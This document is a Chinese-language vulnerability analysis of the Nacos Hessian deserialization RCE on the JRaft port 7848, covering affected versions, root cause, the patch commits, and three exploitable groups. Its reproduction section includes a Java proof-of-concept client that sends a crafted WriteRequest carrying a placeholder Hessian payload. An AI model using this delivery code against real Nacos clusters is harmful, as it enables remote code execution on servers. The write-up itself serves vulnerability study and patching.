









- [Nacos Hessian 反序列化漏洞](#nacos-hessian-反序列化漏洞)
  - [漏洞影响范围](#漏洞影响范围)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [Jraft](#jraft)
    - [Hessian](#hessian)
      - [NacosStateMachine](#nacosstatemachine)
  - [漏洞复现](#漏洞复现)
    - [Group](#group)
  - [补丁](#补丁)
  - [参考资料](#参考资料)

# Nacos Hessian 反序列化漏洞
## 漏洞影响范围
* 2.0.0 <= Version <2.2.3  
* 1.4.0 <=Version <1.4.6
## 环境搭建  
https://github.com/alibaba/nacos/releases  
`startup.cmd -m standalone`
## 漏洞原理
官方描述如下:  
```
该版本主要针对部分Jraft请求处理时，使用hessian进行反序列化未限制而造成的RCE漏洞进行修复。

该漏洞仅影响7848端口（默认设置下），一般使用时该端口为Nacos集群间Raft协议的通信端口，不承载客户端请求，因此老版本可以通过禁止该端口来自Nacos集群外的请求达到止血目的（如部署时已进行限制或未暴露，则风险可控）。
```
### Jraft
从漏洞描述可以看到是集群的7848端口在使用jraft协议通信时触发的漏洞,而Jraft协议则是对raft算法的java实现,而raft算法简单来说是用来解决在分布式系统中,如何在多个机器中对同一个值达成一致.
### Hessian  
从commit可以看到是针对`HessianSerializer `添加了白名单,也就是说Nacos集群间使用的jraft协议是基于Hessian进行序列化传递的,而由于没有对反序列化的类做限制,导致可以构造一个恶意的jraft协议数据包在服务器端触发反序列化漏洞.  
#### NacosStateMachine
而Jraft相关的实现类位于`com.alibaba.nacos.core.distributed.raft`中.  

  
服务端处理message的地方則是在`NacosStateMachine#onApply`中,可以看到会根据message的雷士是写入还是读取来调用`this.processor`的`onApply`或者`onRequest`方法.  
  
而processor的实现类有五种,其中的`onApply`方法都是使用了自身类的`this.serializer.deserialize`对request进行反序列化.   
  

而这些实现类中的`serializer`属性对象默认来自SerializeFactory的默认序列化器,也就是`Hessian`.
  
  
可以看到有些在调用deserialize时第二个参数是传入了一个Class的,还以为是指定了能反序列化的Class,然而从`HessianSerializer`可以看到这个Class其实并没有用上.

## 漏洞复现
原理并不复杂,主要是要根据jraft协议来构造对应协议的请求包,其中还涉及一些grpc的知识,以发送一个WriteRequest请求为例,在HessianSerializer的deserialize()下断点.  
```java
package org.example;
import com.alibaba.nacos.consistency.entity.WriteRequest;
import com.alipay.sofa.jraft.entity.PeerId;
import com.alipay.sofa.jraft.error.RemotingException;
import com.alipay.sofa.jraft.option.CliOptions;
import com.alipay.sofa.jraft.rpc.impl.GrpcClient;
import com.alipay.sofa.jraft.rpc.impl.MarshallerHelper;
import com.alipay.sofa.jraft.rpc.impl.cli.CliClientServiceImpl;
import com.google.protobuf.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Map;
public class Main {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, RemotingException, InterruptedException {
        String address = "127.0.0.1:7848";
        byte[] poc = Base64.getDecoder().decode("HessianSerializer payload");
        CliClientServiceImpl cliClientService = new CliClientServiceImpl();
        cliClientService.init(new CliOptions());
        PeerId leader = PeerId.parsePeer(address);
        WriteRequest request = WriteRequest.newBuilder()
                .setGroup("naming_instance_metadata")
                .setData(ByteString.copyFrom(poc))
                .build();
        GrpcClient grpcClient = (GrpcClient) cliClientService.getRpcClient();
        Field parserClassesField = GrpcClient.class.getDeclaredField("parserClasses");
        parserClassesField.setAccessible(true);
        Map<String, Message> parserClasses = (Map) parserClassesField.get(grpcClient);
        parserClasses.put(WriteRequest.class.getName(),WriteRequest.getDefaultInstance());
        MarshallerHelper.registerRespInstance(WriteRequest.class.getName(),WriteRequest.getDefaultInstance());
        Object res = grpcClient.invokeSync(leader.getEndpoint(), request,5000);
        System.out.println(res);
    }
}
```  
调用栈如下:

### Group
其中根据WriteRequest的setGroup的Group不同,NacosStateMachine的processor也是不同的,同时一个group只能反序列化一次,而一共有三个group,所以该漏洞总共可以打三次.  
分别对应
```
naming_persistent_service_v2 ===> PersistentClientOperationServiceImpl
naming_instance_metadata ===> InstanceMetadataProcessor
naming_service_metadata ===> ServiceMetadataProcessor
```
## 补丁  
补丁也是终于把这个Class用上了,加入了白名单和期望类检测.    
  
   
https://github.com/alibaba/nacos/pull/10542/commits/3bf5372186c111ad2037f2b2e0261941950c0af4   
https://github.com/alibaba/nacos/pull/10542/commits/68bcbe26fad4e5bebbb1f2785216c1438956c855
## 参考资料
https://y4er.com/posts/nacos-hessian-rce/      
https://l3yx.github.io/2023/06/09/Nacos-Raft-Hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/#more
https://raft.github.io/    
https://www.sofastack.tech/projects/sofa-jraft/overview/  
https://grpc.io/docs/languages/java/basics/